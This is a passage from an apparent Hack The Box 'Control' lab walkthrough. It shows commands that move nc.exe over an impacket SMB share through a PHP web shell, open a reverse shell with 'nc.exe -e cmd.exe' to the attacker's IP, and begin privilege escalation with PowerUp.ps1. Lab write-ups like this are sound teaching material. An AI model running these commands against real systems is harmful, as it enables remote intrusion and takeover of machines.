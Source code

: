 Now in order to spawn reverse shell, I will first transfer **nc.exe** over using smbserver.

Run impacket-smbserver on directory with **nc.exe**:

`impacket-smbserver share $(pwd) -smb2support`

I will save **nc.exe** to `C:\Windows\Temp` using the command below:

`curl -s 'http://10.10.10.167/cmd.php?cmd=copy+\\10.10.14.21\share\nc.exe+C%3a\Windows\Temp\nc.exe'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-32.png)

I can confirm **nc.exe** is transferred successfully:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-33.png)

Running **nc.exe** towards my local Kali lister, now I have shell as **nt authority\iusr**:

`curl 'http://10.10.10.167/cmd.php?cmd=C%3a\Windows\Temp\nc.exe+-e+cmd.exe+10.10.14.21+1337'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-34.png)

## Privesc: iusr to Hector
### PowerUp.ps1

I will first start powershell session through `powershell` command and download **PowerUp.ps1**:

`copy \\10.10.14.21\share\PowerUp.ps1 C:\Windows\Temp\PowerUp.ps1`
